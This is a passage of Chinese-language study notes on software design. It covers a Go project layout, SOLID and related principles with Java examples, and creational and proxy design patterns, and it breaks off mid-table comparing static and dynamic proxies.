│   └── interface.go # 仓储接口
├── domain/          # 领域模型
│   ├── user.go
│   ├── order.go
│   └── value.go     # 值对象
├── config/          # 配置管理
│   └── config.go
└── pkg/             # 内部公共库（可被internal内其他包导入）
    ├── database/
    ├── cache/
    └── validator/
```

###### pkg/ - 公共库代码（可被外部项目导入）

```
pkg/
├── utils/           # 工具函数
│   ├── stringutil.go
│   └── timeutil.go
├── logger/          # 日志库
│   └── logger.go
├── database/        # 数据库公共组件
│   └── postgres.go
├── auth/           # 认证授权
│   └── jwt.go
└── queue/          # 消息队列
    └── redisq.go
```

##### 2.2 配置文件目录

```
configs/
├── dev.yaml         # 开发环境配置
├── staging.yaml     # 测试环境配置  
├── production.yaml  # 生产环境配置
└── config.go        # 配置结构体定义
```

**配置示例**：

```
// configs/config.go
package config

type Config struct {
    Server   ServerConfig   `yaml:"server"`
    Database DatabaseConfig `yaml:"database"`
    Redis    RedisConfig    `yaml:"redis"`
}

type ServerConfig struct {
    Port int    `yaml:"port"`
    Env  string `yaml:"env"`
}
```

##### 2.3 API 定义目录

```
api/
├── openapi/         # OpenAPI 规范
│   └── swagger.yaml
├── protobuf/        # gRPC 协议定义
│   ├── user.proto
│   └── order.proto
└── graphql/         # GraphQL Schema
    └── schema.graphql
```


### 软件**设计原则**

> SOLID原则 单一指责/开闭原则/接口隔离...，KISS/DRY/YAGNI/LOD原则 防止过度设计/不写重复代码...

#### 1. SOLID 原则详解

##### 1.1 SRP - 单一职责原则 (Single Responsibility Principle)

**核心思想**：一个类应该只有一个引起变化的原因

**违反示例**

```java
// 违反SRP - 承担了太多职责
class UserManager {
    public void createUser(String username, String password) { /* 用户创建 */ }
    public void sendEmail(String to, String subject, String body) { /* 邮件发送 */ }
    public void logActivity(String activity) { /* 日志记录 */ }
    public void validatePassword(String password) { /* 密码验证 */ }
}
```

**遵循示例**

```java
// 拆分职责
class UserService {
    private EmailService emailService;
    private Logger logger;
    private PasswordValidator validator;
    
    public void createUser(String username, String password) {
        validator.validate(password);
        // 创建用户逻辑
        emailService.sendWelcomeEmail(username);
        logger.log("User created: " + username);
    }
}

class EmailService { /* 只处理邮件相关 */ }
class Logger { /* 只处理日志相关 */ }
class PasswordValidator { /* 只处理密码验证 */ }
```

**应用场景**：

- 微服务设计：每个服务单一职责
- 函数设计：函数只做一件事
- 模块划分：模块功能内聚

##### 1.2 OCP - 开闭原则 (Open/Closed Principle)

**核心思想**：对扩展开放，对修改关闭

**违反示例**

```java
class ShapeCalculator {
    public double calculateArea(String shapeType, double... params) {
        if ("circle".equals(shapeType)) {
            return Math.PI * params[0] * params[0];
        } else if ("rectangle".equals(shapeType)) {
            return params[0] * params[1];
        }
        // 添加新形状需要修改此类
        throw new IllegalArgumentException("Unsupported shape");
    }
}
```

**遵循示例**

```java
// 抽象基类
abstract class Shape {
    public abstract double calculateArea();
}

// 具体实现
class Circle extends Shape {
    private double radius;
    public double calculateArea() { return Math.PI * radius * radius; }
}

class Rectangle extends Shape {
    private double width, height;
    public double calculateArea() { return width * height; }
}

// 扩展时无需修改现有代码
class Triangle extends Shape {
    private double base, height;
    public double calculateArea() { return 0.5 * base * height; }
}

class AreaCalculator {
    public double calculateTotalArea(List<Shape> shapes) {
        return shapes.stream().mapToDouble(Shape::calculateArea).sum();
    }
}
```

**设计模式应用**：

- 策略模式（Strategy Pattern）==》可以很好扩展，不同配置使用不同的handle函数
- 模板方法模式（Template Method）
- 观察者模式（Observer Pattern）


##### 1.3 LSP - 里氏替换原则 (Liskov Substitution Principle)

**核心思想**：子类必须能够替换父类，且行为一致

**违反示例**

```java
class Rectangle {
    protected int width, height;
    
    public void setWidth(int width) { this.width = width; }
    public void setHeight(int height) { this.height = height; }
    public int getArea() { return width * height; }
}

class Square extends Rectangle {
    // 违反LSP：改变了父类行为
    @Override
    public void setWidth(int width) { 
        super.setWidth(width);
        super.setHeight(width); // 正方形宽高相等
    }
    
    @Override
    public void setHeight(int height) {
        super.setHeight(height);
        super.setWidth(height);
    }
}

// 使用时会出问题
void testRectangle(Rectangle rect) {
    rect.setWidth(5);
    rect.setHeight(4);
    assert rect.getArea() == 20; // 如果传入Square，结果为16，违反预期
}
```

**遵循示例**

```java
abstract class Shape {
    public abstract int getArea();
}

class Rectangle extends Shape {
    private int width, height;
    // 构造函数确保不变性
    public Rectangle(int width, int height) {
        this.width = width;
        this.height = height;
    }
    public int getArea() { return width * height; }
}

class Square extends Shape {
    private int side;
    public Square(int side) { this.side = side; }
    public int getArea() { return side * side; }
}
```


##### 1.4 ISP - 接口隔离原则 (Interface Segregation Principle)

**核心思想**：客户端不应依赖它不需要的接口

**违反示例**

```
// 臃肿的接口
interface Worker {
    void work();
    void eat();
    void sleep();
    void code();
    void design();
    void test();
}

class Programmer implements Worker {
    public void work() { /* 编程工作 */ }
    public void eat() { /* 吃饭 */ }
    public void sleep() { /* 睡觉 */ }
    public void code() { /* 写代码 */ }
    public void design() { /* 不需要，但必须实现 */ }
    public void test() { /* 不需要，但必须实现 */ }
}
```

**遵循示例**

```
// 细粒度接口
interface Workable { void work(); }
interface Eatable { void eat(); }
interface Sleepable { void sleep(); }

interface ProgrammerWork extends Workable {
    void code();
    void debug();
}

interface DesignerWork extends Workable {
    void design();
    void prototype();
}

class Programmer implements ProgrammerWork, Eatable, Sleepable {
    public void work() { /* 工作 */ }
    public void code() { /* 编码 */ }
    public void debug() { /* 调试 */ }
    public void eat() { /* 吃饭 */ }
    public void sleep() { /* 睡觉 */ }
}
```


##### 1.5 DIP - 依赖倒置原则 (Dependency Inversion Principle)

**核心思想**：依赖抽象，而不是具体实现

**违反示例**

```java
// 高层模块依赖低层模块
class MySQLDatabase {
    public void save(String data) { /* MySQL 实现 */ }
}

class ReportService {
    private MySQLDatabase database; // 直接依赖具体实现
    
    public void generateReport() {
        // 业务逻辑
        database.save(reportData);
    }
}
```

**遵循示例**

```java
// 抽象接口
interface Database {
    void save(String data);
    String load(String id);
}

// 具体实现
class MySQLDatabase implements Database {
    public void save(String data) { /* MySQL 实现 */ }
    public String load(String id) { /* MySQL 实现 */ }
}

class MongoDB implements Database {
    public void save(String data) { /* MongoDB 实现 */ }
    public String load(String id) { /* MongoDB 实现 */ }
}

// 高层模块依赖抽象
class ReportService {
    private Database database; // 依赖抽象
    
    public ReportService(Database database) {
        this.database = database; // 依赖注入
    }
    
    public void generateReport() {
        database.save(reportData);
    }
}
```


#### 2. KISS / DRY / YAGNI /LOD原则

##### 2.1 KISS - 保持简单原则 (Keep It Simple, Stupid)

**核心思想**：简单优于复杂

**违反示例**

```java
// 过度设计
public class ComplexUserValidator {
    public ValidationResult validateUserRegistration(
        UserRegistrationDTO registration, 
        ValidationContext context, 
        ValidationConfig config) {
        
        // 复杂的验证逻辑链
        if (context.isStrictMode() && config.enableAdvancedValidation()) {
            return performAdvancedValidation(registration, context, config);
        }
        // ... 更多复杂逻辑
    }
}
```

**遵循示例**

```java
// 简单直接
public class UserService {
    public void registerUser(String email, String password) {
        if (!isValidEmail(email)) {
            throw new IllegalArgumentException("Invalid email");
        }
        if (!isValidPassword(password)) {
            throw new IllegalArgumentException("Invalid password");
        }
        createUser(email, password);
    }
    
    private boolean isValidEmail(String email) {
        return email != null && email.contains("@");
    }
    
    private boolean isValidPassword(String password) {
        return password != null && password.length() >= 8;
    }
}
```

##### 2.2 DRY - 不要重复自己 (Don't Repeat Yourself)

**核心思想**：消除重复代码

**违反示例**

```
class UserService {
    public void createUser(String name, String email) {
        // 重复的验证逻辑
        if (name == null || name.trim().isEmpty()) {
            throw new IllegalArgumentException("Name cannot be empty");
        }
        if (email == null || !email.contains("@")) {
            throw new IllegalArgumentException("Invalid email");
        }
        // 创建用户
    }
    
    public void updateUser(String name, String email) {
        // 重复的验证逻辑
        if (name == null || name.trim().isEmpty()) {
            throw new IllegalArgumentException("Name cannot be empty");
        }
        if (email == null || !email.contains("@")) {
            throw new IllegalArgumentException("Invalid email");
        }
        // 更新用户
    }
}
```

**遵循示例**

```
class Validator {
    public static void validateName(String name) {
        if (name == null || name.trim().isEmpty()) {
            throw new IllegalArgumentException("Name cannot be empty");
        }
    }
    
    public static void validateEmail(String email) {
        if (email == null || !email.contains("@")) {
            throw new IllegalArgumentException("Invalid email");
        }
    }
}

class UserService {
    public void createUser(String name, String email) {
        Validator.validateName(name);
        Validator.validateEmail(email);
        // 创建用户
    }
    
    public void updateUser(String name, String email) {
        Validator.validateName(name);
        Validator.validateEmail(email);
        // 更新用户
    }
}
```


##### 2.3 YAGNI - 你不会需要它 (You Ain't Gonna Need It)

**核心思想**：不要过度设计，只实现当前需要的功能

**违反示例**

```java
// 过度设计，为未来可能的需求做准备
interface NotificationService {
    void sendEmail(String to, String subject, String body);
    void sendSMS(String phone, String message);
    void sendPush(String deviceId, String message);
    void sendWeChat(String openId, String message); // 可能永远用不到
    void sendTelegram(String chatId, String message); // 可能永远用不到
}

class UserNotifier {
    private NotificationService notifier;
    
    // 实现了所有可能的消息类型
    public void notifyUser(User user, String message, NotificationType type) {
        switch (type) {
            case EMAIL: notifier.sendEmail(user.getEmail(), "Notification", message); break;
            case SMS: notifier.sendSMS(user.getPhone(), message); break;
            case PUSH: notifier.sendPush(user.getDeviceId(), message); break;
            // 实现了可能不需要的功能
        }
    }
}
```

**遵循示例**

```java
// 只实现当前需要的功能
interface NotificationService {
    void sendEmail(String to, String subject, String body);
    // 需要时再添加其他方法
}

class UserNotifier {
    private NotificationService emailNotifier;
    
    // 当前只需要邮件通知
    public void notifyUserByEmail(User user, String message) {
        emailNotifier.sendEmail(user.getEmail(), "Notification", message);
    }
    
    // 需要短信通知时再添加
    // public void notifyUserBySMS(User user, String message) { ... }
}
```


##### 2.4. LOD - 迪米特法则 (Law of Demeter)

**核心思想**：只与直接的朋友通信

**违反示例**

```java
class CustomerService {
    public void processOrder(Customer customer) {
        // 违反LOD：与间接对象通信
        String city = customer.getAddress().getCity().toUpperCase();
        // 链式调用，耦合度过高  ==>跨class时避免链式调用
    }
}

class Customer {
    private Address address;
    public Address getAddress() { return address; }
}

class Address {
    private City city;
    public City getCity() { return city; }
}

class City {
    private String name;
    public String getName() { return name; }
}
```

**遵循示例**

```java
class CustomerService {
    public void processOrder(Customer customer) {
        // 只与直接朋友通信
        String city = customer.getCityName();
    }
}

class Customer {
    private Address address;
    
    // 封装内部细节
    public String getCityName() {
        return address != null ? address.getCityName() : "";
    }
}

class Address {
    private City city;
    
    public String getCityName() {
        return city != null ? city.getName() : "";
    }
}
```


#### 3. 原则冲突与权衡

##### 3.1 原则之间的权衡

| 冲突场景               | 原则A | 原则B | 解决方案                          |
| :--------------------- | :---- | :---- | :-------------------------------- |
| **简单性 vs 扩展性**   | KISS  | OCP   | 根据变化频率决定，高频变化遵循OCP |
| **不重复 vs 简单性**   | DRY   | KISS  | 适度抽象，避免过度工程            |
| **单一职责 vs 类爆炸** | SRP   | KISS  | 按变化原因分组，合理粒度          |

##### 3.2 实用建议

1. **初创项目**：优先KISS、YAGNI，快速迭代
2. **成熟系统**：注重OCP、SRP，保证可维护性
3. **团队协作**：强调DRY、ISP，提高代码复用
4. **复杂业务**：应用DIP、LSP，降低耦合度

#### 4. 设计原则检查清单

- ✅ 这个类/方法是否只有一个改变的原因？（SRP）
- ✅ 新功能是否通过扩展而非修改实现？（OCP）
- ✅ 子类是否能完全替换父类？（LSP）
- ✅ 接口是否足够专注和最小化？（ISP）
- ✅ 高层模块是否依赖抽象而非具体实现？（DIP）
- ✅ 代码是否足够简单直接？（KISS）
- ✅ 是否有重复代码可以抽取？（DRY）
- ✅ 是否实现了当前不需要的功能？（YAGNI）
- ✅ 是否**避免了过长的调用链**？（LOD）


### **设计模式**

> 掌握几种常用模式 单例/工厂/代理/适配器模式....


#### 1. 设计模式对比与选择指南

##### 1.1 创建型模式对比

| 模式         | 适用场景         | 特点               |
| :----------- | :--------------- | :----------------- |
| **单例**     | 全局唯一实例     | 控制实例数量       |
| **工厂方法** | 类创建逻辑复杂   | 子类决定创建对象   |
| **抽象工厂** | 产品族创建       | 创建相关对象家族   |
| **建造者**   | **复杂对象创建** | 分步构建，灵活配置 |

##### 1.2 结构型模式对比

| 模式       | 适用场景     | 特点               |
| :--------- | :----------- | :----------------- |
| **适配器** | 接口不兼容   | 接口转换           |
| **代理**   | 访问控制     | 间接访问，增强功能 |
| **装饰器** | 动态添加功能 | 运行时扩展         |
| **外观**   | 简化复杂系统 | 统一接口           |

##### 1.3 行为型模式对比

| 模式         | 适用场景     | 特点               |
| :----------- | :----------- | :----------------- |
| **观察者**   | 一对多依赖   | 自动通知           |
| **策略**     | 算法替换     | 封装算法，灵活切换 |
| **模板方法** | 算法框架固定 | 定义算法骨架       |
| **责任链**   | 请求处理链   | 多个对象处理请求   |


#### 2. 实际应用场景总结

##### 2.1 Spring框架中的设计模式

- **单例模式**：Bean的默认作用域
- **工厂模式**：BeanFactory, ApplicationContext
- **代理模式**：AOP实现，事务管理
- **模板方法**：JdbcTemplate, RestTemplate
- **观察者模式**：ApplicationEvent事件机制

##### 2.2 选择原则

1. **识别变化点**：找到系统中变化的部分
2. **面向接口**：针对接口编程，而不是实现
3. **组合优于继承**：优先使用对象组合
4. **开闭原则**：对扩展开放，对修改关闭

### 设计模式--创建型模式

#### 1. 单例模式 (Singleton Pattern)

##### 1.1 核心思想

确保一个类只有一个实例，并提供全局访问点

##### 1.2 实现方式对比

###### 饿汉式（线程安全）

```java
public class EagerSingleton {
    // 类加载时即创建实例
    private static final EagerSingleton instance = new EagerSingleton();
    
    // 私有构造器防止外部实例化
    private EagerSingleton() {}
    
    public static EagerSingleton getInstance() {
        return instance;
    }
}
```

**优点**：简单、线程安全

**缺点**：可能造成资源浪费（如果实例未被使用）

###### 懒汉式（双重检查锁）

```java
public class LazySingleton {
    private static volatile LazySingleton instance;
    
    private LazySingleton() {}
    
    public static LazySingleton getInstance() {
        if (instance == null) { // 第一次检查
            synchronized (LazySingleton.class) {
                if (instance == null) { // 第二次检查
                    instance = new LazySingleton();
                }
            }
        }
        return instance;
    }
}
```

**优点**：延迟加载、线程安全

**缺点**：实现稍复杂

###### 静态内部类（推荐）

```java
public class StaticSingleton {
    private StaticSingleton() {}
    
    private static class SingletonHolder {
        private static final StaticSingleton instance = new StaticSingleton();
    }
    
    public static StaticSingleton getInstance() {
        return SingletonHolder.instance;
    }
}
```

**优点**：延迟加载、线程安全、实现简单

###### 枚举单例（最佳实践）

```java
public enum EnumSingleton {
    INSTANCE;
    
    public void doSomething() {
        System.out.println("Singleton operation");
    }
}

// 使用
EnumSingleton.INSTANCE.doSomething();
```

**优点**：绝对防止多次实例化，自动支持序列化

##### 1.3 应用场景

- 配置管理器
- 数据库连接池
- 日志记录器
- 缓存管理器

#### 2. 工厂模式 (Factory Pattern)

> 工厂模式最大的优点就是：**解耦**。

##### 2.1 简单工厂模式

简单工厂包含如下角色：

* 抽象产品 ：定义了产品的规范，描述了产品的主要特性和功能。
* 具体产品 ：实现或者继承抽象产品的子类
* 具体工厂 ：提供了创建产品的方法，调用者通过该方法来获取产品。

```java
// 产品接口
interface Shape {
    void draw();
}

// 具体产品
class Circle implements Shape {
    public void draw() { System.out.println("绘制圆形"); }
}

class Rectangle implements Shape {
    public void draw() { System.out.println("绘制矩形"); }
}

// 简单工厂
class ShapeFactory {
    public static Shape createShape(String type) {
        switch (type.toLowerCase()) {
            case "circle": return new Circle();
            case "rectangle": return new Rectangle();
            default: throw new IllegalArgumentException("未知形状类型");
        }
    }
}

// 使用
Shape circle = ShapeFactory.createShape("circle");
circle.draw();
```

一个工厂类根据参数创建不同产品；

==》工厂作为**统一入口**，create不同type的产品


**优点：**

封装了创建对象的过程，可以通过参数直接获取对象。把对象的创建和业务逻辑层分开，这样以后就避免了修改客户代码，如果要实现新产品直接修改工厂类，而不需要在原代码中修改，这样就降低了客户代码修改的可能性，更加容易扩展。

**缺点：**

增加新产品时还是需要修改工厂类的代码，违背了“开闭原则”。


##### 2.2 工厂方法模式

> 定义一个用于创建对象的接口，让子类决定实例化哪个产品类对象。
>
> 工厂方法使一个产品类的实例化延迟到其工厂的子类。
>
> 每个产品对应一个工厂子类，由子类决定创建具体产品。


工厂方法模式的主要角色：

* 抽象工厂（Abstract Factory）：提供了创建产品的接口，调用者通过它访问具体工厂的工厂方法来创建产品。
* 具体工厂（ConcreteFactory）：主要是实现抽象工厂中的抽象方法，完成具体产品的创建。
* 抽象产品（Product）：定义了产品的规范，描述了产品的主要特性和功能。
* 具体产品（ConcreteProduct）：实现了抽象产品角色所定义的接口，由具体工厂来创建，它同具体工厂之间一一对应。

```java
// 1. 抽象创建者 - 定义工厂方法
abstract class ButtonFactory {
    // 这就是"工厂方法" - 抽象方法，由子类实现
    public abstract Button createButton();
    
    // 可以有默认实现（模板方法模式）
    public void renderButton() {
        Button button = createButton();
        button.render();
    }
}

// 2. 具体创建者 - 实现工厂方法
class WindowsButtonFactory extends ButtonFactory {
    public Button createButton() {
        return new WindowsButton();  // 创建Windows风格按钮
    }
}

class MacButtonFactory extends ButtonFactory {
    public Button createButton() {
        return new MacButton();  // 创建Mac风格按钮
    }
}

// 应用类 - 通过构造函数注入工厂
class Application {
    private Button button;
    
    public Application(ButtonFactory factory) {
        button = factory.createButton();  // 通过工厂创建产品
    }
    
    public void render() {
        button.render();
    }
}

// 使用示例
public class SimpleFactoryMethodExample {
    public static void main(String[] args) {
        // 根据配置选择工厂
        ButtonFactory factory;
        if (System.getProperty("os.name").toLowerCase().contains("win")) {
            factory = new WindowsButtonFactory();
        } else {
            factory = new MacButtonFactory();
        }
        
        // 通过构造函数注入工厂
        Application app = new Application(factory);
        app.render();  // 输出: "Windows风格按钮" 或 "Mac风格按钮"
    }
}
```

==》将创建者也抽象出来，具体创建者中实现不同的工厂方法获取不同的具体产品。

**工厂方法模式的核心思想**是：**将对象的创建延迟到子类，让子类决定实例化哪个具体类**。

**"不要直接new对象，让子类告诉我要创建什么"**


**优点：**

- 用户只需要知道具体工厂的名称就可得到所要的产品，无须知道产品的具体创建过程；
- 在系统增加新的产品时只需要添加具体产品类和对应的具体工厂类，无须对原工厂进行任何修改，满足开闭原则；

**缺点：**

* 每增加一个产品就要增加一个具体产品类和一个对应的具体工厂类，这增加了系统的复杂度。


##### 2.3 抽象工厂模式

> 是一种为访问类提供一个创建一组相关或相互依赖对象的接口，且访问类无须指定所要产品的具体类就能得到同族的不同等级的产品的模式结构。
>
> **抽象工厂模式是工厂方法模式的升级版本，工厂方法模式只生产一个等级的产品，而抽象工厂模式可生产多个等级的产品**。


```java
// 抽象工厂(包含多种产品)
interface GUIFactory {
    Button createButton();
    Checkbox createCheckbox();
}

// 具体工厂
class WindowsFactory implements GUIFactory {
    public Button createButton() { return new WindowsButton(); }
    public Checkbox createCheckbox() { return new WindowsCheckbox(); }
}

class MacFactory implements GUIFactory {
    public Button createButton() { return new MacButton(); }
    public Checkbox createCheckbox() { return new MacCheckbox(); }
}

// 客户端代码
class Application {
    private Button button;
    private Checkbox checkbox;
    
    public Application(GUIFactory factory) {
        button = factory.createButton();
        checkbox = factory.createCheckbox();
    }
    
    public void paint() {
        button.render();
        checkbox.render();
    }
}
```

==》抽象工厂：包含多种产品，**是对产品族创建关系的抽象约束**


###### **核心差异：约束的维度**

**工厂方法的约束是"纵向"的**

```
ChineseChef   → StirFriedDish (中式炒菜)
ItalianChef   → BakedDish (意式烤菜)
FrenchChef    → StewedDish (法式炖菜)

约束：每个厨师与特定做法绑定
```

**抽象工厂的约束是"横向"的**

```
ChineseRestaurant → [KungPaoChicken + HotSourSoup + MoonCake]
ItalianRestaurant → [Pizza + Minestrone + Tiramisu]  
FrenchRestaurant  → [Steak + OnionSoup + CremeBrulee]

约束：餐厅内所有菜品风格必须一致！
```


**优点：**

当一个产品族中的多个对象被设计成一起工作时，它能保证客户端始终只使用同一个产品族中的对象。

**缺点：**

当产品族中需要增加一个新的产品时，所有的工厂类都需要进行修改。


#### 3.原型模式（prototype）

> 用一个已经创建的实例作为原型，通过复制该原型对象来创建一个和原型对象相同的**新对象**。

原型模式包含如下角色：

* 抽象原型类：规定了具体原型对象必须实现的的 clone() 方法。
* 具体原型类：实现抽象原型类的 clone() 方法，它是可被复制的对象。
* 访问类：使用具体原型类中的 clone() 方法来复制新的对象。

```java
// 抽象原型类 Cloneable 

//具体原型类 奖状类
public class Citation implements Cloneable {
    private String name;

    public void setName(String name) {
        this.name = name;
    }

    public String getName() {
        return (this.name);
    }

    public void show() {
        System.out.println(name + "同学：在2020学年第一学期中表现优秀，被评为三好学生。特发此状！");
    }

    @Override
    public Citation clone() throws CloneNotSupportedException {
        return (Citation) super.clone();
    }
}

//测试访问类
public class CitationTest {
    public static void main(String[] args) throws CloneNotSupportedException {
        Citation c1 = new Citation();
        c1.setName("张三");

        //复制奖状
        Citation c2 = c1.clone();
        //将奖状的名字修改李四
        c2.setName("李四");

        c1.show();
        c2.show();
    }
}
```


#### 4.建造者模式（Builder）

> 将一个复杂对象的构建与表示分离，使得同样的构建过程可以创建不同的表示。
>
> 分离了部件的构造(由Builder来负责)和装配(由**Director**负责)。 从而可以构造出复杂的对象。**这个模式适用于：某个对象的构建过程复杂的情况**。
>
> 实现了构建和装配的解耦

建造者（Builder）模式包含如下角色：

* 抽象建造者类（Builder）：这个接口规定要实现复杂对象的那些部分的创建，并不涉及具体的部件对象的创建。 

* 具体建造者类（ConcreteBuilder）：实现 Builder 接口，完成复杂产品的各个部件的具体创建方法。在构造过程完成后，提供产品的实例。 

* 产品类（Product）：要创建的复杂对象。

* 指挥者类（Director）：调用具体建造者来创建复杂对象的各个部分，在指导者中不涉及具体产品的信息，只负责保证对象各部分完整创建或按某种顺序创建。 

```java
//自行车类
public class Bike {
    private String frame;
    private String seat;

    public String getFrame() {
        return frame;
    }

    public void setFrame(String frame) {
        this.frame = frame;
    }

    public String getSeat() {
        return seat;
    }

    public void setSeat(String seat) {
        this.seat = seat;
    }
}

// 抽象 builder 类
public abstract class Builder {

    protected Bike mBike = new Bike();

    public abstract void buildFrame();
    public abstract void buildSeat();
    public abstract Bike createBike();
}

//摩拜单车Builder类
public class MobikeBuilder extends Builder {

    @Override
    public void buildFrame() {
        mBike.setFrame("铝合金车架");
    }

    @Override
    public void buildSeat() {
        mBike.setSeat("真皮车座");
    }

    @Override
    public Bike createBike() {
        return mBike;
    }
}

//ofo单车Builder类
public class OfoBuilder extends Builder {

    @Override
    public void buildFrame() {
        mBike.setFrame("碳纤维车架");
    }

    @Override
    public void buildSeat() {
        mBike.setSeat("橡胶车座");
    }

    @Override
    public Bike createBike() {
        return mBike;
    }
}

//指挥者类
public class Director {
    private Builder mBuilder;

    public Director(Builder builder) {
        mBuilder = builder;
    }

    public Bike construct() {
        mBuilder.buildFrame();
        mBuilder.buildSeat();
        return mBuilder.createBike();
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        showBike(new OfoBuilder());
        showBike(new MobikeBuilder());
    }
    private static void showBike(Builder builder) {
        Director director = new Director(builder);
        Bike bike = director.construct();
        System.out.println(bike.getFrame());
        System.out.println(bike.getSeat());
    }
}
```


##### 模式扩展

链式调用可以看做是一种简化的建造者模式：

在开发中还有一个常用的使用方式，就是当一个类构造器需要传入很多参数时，如果创建这个类的实例，代码可读性会非常差，而且很容易引入错误，**此时就可以利用建造者模式进行重构**。

重构前代码如下：

```java
public class Phone {
    private String cpu;
    private String screen;
    private String memory;
    private String mainboard;

    public Phone(String cpu, String screen, String memory, String mainboard) {
        this.cpu = cpu;
        this.screen = screen;
        this.memory = memory;
        this.mainboard = mainboard;
    }

    public String getCpu() {
        return cpu;
    }

    public void setCpu(String cpu) {
        this.cpu = cpu;
    }

    public String getScreen() {
        return screen;
    }

    public void setScreen(String screen) {
        this.screen = screen;
    }

    public String getMemory() {
        return memory;
    }

    public void setMemory(String memory) {
        this.memory = memory;
    }

    public String getMainboard() {
        return mainboard;
    }

    public void setMainboard(String mainboard) {
        this.mainboard = mainboard;
    }

    @Override
    public String toString() {
        return "Phone{" +
                "cpu='" + cpu + '\'' +
                ", screen='" + screen + '\'' +
                ", memory='" + memory + '\'' +
                ", mainboard='" + mainboard + '\'' +
                '}';
    }
}

public class Client {
    public static void main(String[] args) {
        //构建Phone对象
        Phone phone = new Phone("intel","三星屏幕","金士顿","华硕");
        System.out.println(phone);
    }
}
```

上面在客户端代码中构建Phone对象，传递了四个参数，如果参数更多呢？代码的可读性及使用的成本就是比较高。

重构后代码：

```java
public class Phone {

    private String cpu;
    private String screen;
    private String memory;
    private String mainboard;

    private Phone(Builder builder) {
        cpu = builder.cpu;
        screen = builder.screen;
        memory = builder.memory;
        mainboard = builder.mainboard;
    }

    public static final class Builder {
        private String cpu;
        private String screen;
        private String memory;
        private String mainboard;

        public Builder() {}

        public Builder cpu(String val) {
            cpu = val;
            return this;
        }
        public Builder screen(String val) {
            screen = val;
            return this;
        }
        public Builder memory(String val) {
            memory = val;
            return this;
        }
        public Builder mainboard(String val) {
            mainboard = val;
            return this;
        }
        public Phone build() {
            return new Phone(this);}
    }
    @Override
    public String toString() {
        return "Phone{" +
                "cpu='" + cpu + '\'' +
                ", screen='" + screen + '\'' +
                ", memory='" + memory + '\'' +
                ", mainboard='" + mainboard + '\'' +
                '}';
    }
}

public class Client {
    public static void main(String[] args) {
        Phone phone = new Phone.Builder()
                .cpu("intel")
                .mainboard("华硕")
                .memory("金士顿")
                .screen("三星")
                .build();
        System.out.println(phone);
    }
}
```

重构后的代码在使用起来更方便，某种程度上也可以提高开发效率。从软件设计上，对程序员的要求比较高。


### 设计模式--结构型模式


#### 1. 代理模式 (Proxy Pattern)

> 属于结构型模式

##### 0 代理模式核心思想

###### **1.1 核心概念**

**代理模式**：为其他对象提供一种**代理**以控制对这个对象的访问。

**核心思想**：**"通过一个代理对象来控制对原始对象的访问"**

###### **1.2 三大角色**

```java
// 1. 抽象主题 (Subject) - 定义真实对象和代理对象的共同接口
interface Subject {
    void request();
}

// 2. 真实主题 (Real Subject) - 实际执行业务逻辑的对象
class RealSubject implements Subject {
    public void request() {
        System.out.println("真实主题处理请求");
    }
}

// 3. 代理 (Proxy) - 控制对真实主题的访问
class Proxy implements Subject {
    private RealSubject realSubject;
    
    public void request() {
        if (realSubject == null) {
            realSubject = new RealSubject(); // 延迟加载
        }
        preRequest();    // 前置处理
        realSubject.request(); // 委托给真实对象
        postRequest();   // 后置处理
    }
    
    private void preRequest() {
        System.out.println("代理前置处理");
    }
    
    private void postRequest() {
        System.out.println("代理后置处理");
    }
}
```


##### 1 静态代理

```java
// 主题接口
interface Image {
    void display();
}

// 真实主题 - 重量级对象，创建成本高
class RealImage implements Image {
    private String filename;
    
    public RealImage(String filename) {
        this.filename = filename;
        loadFromDisk(); // 构造函数中立即加载，可能很慢
    }
    
    private void loadFromDisk() {
        System.out.println("从磁盘加载图片: " + filename + " (耗时操作)");
    }
    
    public void display() {
        System.out.println("显示图片: " + filename);
    }
}

// 代理类 - 控制访问，实现延迟加载
class ImageProxy implements Image {
    private RealImage realImage; // 对真实对象的引用
    private String filename;
    
    public ImageProxy(String filename) {
        this.filename = filename;
        // 注意：这里不创建RealImage，实现延迟加载
    }
    
    public void display() {
        // 延迟加载：只有真正需要时才创建真实对象
        if (realImage == null) {
            realImage = new RealImage(filename);
        }
        realImage.display(); // 委托给真实对象
    }
}

// 使用
Image image = new ImageProxy("test.jpg");
// 图片尚未加载
image.display(); // 此时才真正加载图片
```


示例2：卖票

```java
//卖票接口
public interface SellTickets {
    void sell();
}

//火车站  火车站具有卖票功能，所以需要实现SellTickets接口
public class TrainStation implements SellTickets {

    public void sell() {
        System.out.println("火车站卖票");
    }
}

//代售点
public class ProxyPoint implements SellTickets {

    private TrainStation station = new TrainStation();

    public void sell() {
        System.out.println("代理点收取一些服务费用");
        station.sell();
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        ProxyPoint pp = new ProxyPoint();
        pp.sell();
    }
}
```


##### 2 动态代理（JDK）

Java中提供了一个动态代理类Proxy，Proxy并不是我们上述所说的代理对象的类，而是提供了一个创建代理对象的静态方法（newProxyInstance方法）来获取代理对象。

```java
//卖票接口
public interface SellTickets {
    void sell();
}

//火车站  火车站具有卖票功能，所以需要实现SellTickets接口
public class TrainStation implements SellTickets {

    public void sell() {
        System.out.println("火车站卖票");
    }
}

//代理工厂，用来创建代理对象
public class ProxyFactory {

    private TrainStation station = new TrainStation();

    public SellTickets getProxyObject() {
        //使用Proxy获取代理对象
        /*
            newProxyInstance()方法参数说明：
                ClassLoader loader ： 类加载器，用于加载代理类，使用真实对象的类加载器即可
                Class<?>[] interfaces ： 真实对象所实现的接口，代理模式真实对象和代理对象实现相同的接口
                InvocationHandler h ： 代理对象的调用处理程序
         */
        SellTickets sellTickets = (SellTickets) Proxy.newProxyInstance(station.getClass().getClassLoader(),
                station.getClass().getInterfaces(),
                new InvocationHandler() {
                    /*
                        InvocationHandler中invoke方法参数说明：
                            proxy ： 代理对象
                            method ： 对应于在代理对象上调用的接口方法的 Method 实例
                            args ： 代理对象调用接口方法时传递的实际参数
                     */
                    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {

                        System.out.println("代理点收取一些服务费用(JDK动态代理方式)");
                        //执行真实对象
                        Object result = method.invoke(station, args);
                        return result;
                    }
                });
        return sellTickets;
    }
}

//测试类
public class Client {
    public static void main(String[] args) {
        //获取代理对象
        ProxyFactory factory = new ProxyFactory();
        
        SellTickets proxyObject = factory.getProxyObject();
        proxyObject.sell();
    }
}
```

**1. 核心区别对比表**

| 特性           | 静态代理                 | 动态代理                   |
| :------------- | :----------------------- | :------------------------- |
| **创建时机**   | 编译期                   | 运行期                     |
